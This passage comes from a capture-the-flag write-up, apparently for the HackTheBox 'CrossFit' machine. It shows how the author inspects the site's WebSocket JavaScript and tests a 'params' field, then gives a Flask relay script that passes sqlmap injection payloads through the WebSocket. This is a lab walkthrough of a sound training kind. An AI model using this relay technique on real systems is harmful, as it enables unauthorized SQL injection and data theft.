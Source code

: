 By looking on the javascript above ([ws.min.js](scripts/ws.min.js)) we can see the following fucntion:
```javascript
function check_availability(e) {
    var s = new Object;
    s.message = "available", s.params = String(e), s.token = token, ws.send(JSON.stringify(s))
}
```

Meaning that we have another key called ```params``` where ```message``` equals to ```available```, Let's try it:
```json
{"message":"available","params":"1","token":"a68b0fc001510f6f662e7616802ebf6ac79463cad769fc6119d71758d30c0029"}
```

And the response is: 
```json
{"status":"200","message":"Good news! This membership plan is available.","token":"f9f91016061754507be86c518dbe9c0973201e7219169cbfa370dc32b1e7f3ea","debug":"[id: 1, name: 1-month]"}
```

Let's try SQL Injection against ```params``` key using ```sqlmap```, To do that, We can run [Flask](https://flask.palletsprojects.com/en/2.0.x/) web server which received ```sqlmap``` payload and send it using the WebSocket ([inject_server.py](scripts/inject_server.py)):
```python
from flask import Flask
from flask import request
import json
from websocket import create_connection

app = Flask(__name__)


@app.route('/inject')
def index():
    ws = create_connection("ws://gym.crossfit.htb/ws")
    result =  ws.recv()
    token=json.loads(result)['token']
    param=request.args.get('param')
    current_json=json.loads('{"message":"available","params":"1","token":"be8fa1cae3cd4a2b5c9ed815d4b151392e23fadc9ea1c9a44cf5534a7f582415"}')
    current_json['params']=param
    current_json['token']=token
    ws.send(json.dumps(current_json))
    result = json.loads(ws.recv())
    print (result['debug'])
    token=result['token']

    return result

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0')
```
